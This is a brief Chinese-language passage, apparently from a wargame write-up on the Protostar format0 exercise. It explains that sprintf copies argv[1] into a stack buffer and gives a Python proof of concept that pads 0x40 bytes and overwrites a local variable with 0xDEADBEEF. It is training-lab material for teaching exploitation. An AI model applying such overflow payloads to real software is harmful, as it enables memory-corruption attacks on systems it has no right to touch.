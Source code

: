 ![protostar_format0_2](/image/2019-03-20-linux_pwn_format/protostar_format0_2.png)

在这里很容易就发现了该文件的漏洞点，通过从 `sprintf` 将 `argv[1]` 的值写入到 `s` 中。

在这里有一个很简单的栈溢出漏洞，直接进行栈溢出将 `var_c` 覆盖为 `0xDEADBEEF` 。

`poc`：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
import struct, subprocess


def main():
    payload = b"a"*0x40 + struct.pack('<I', 0xDEADBEEF)
    subprocess.Popen(['./format0', payload])


if __name__ == '__main__':
    main()
```
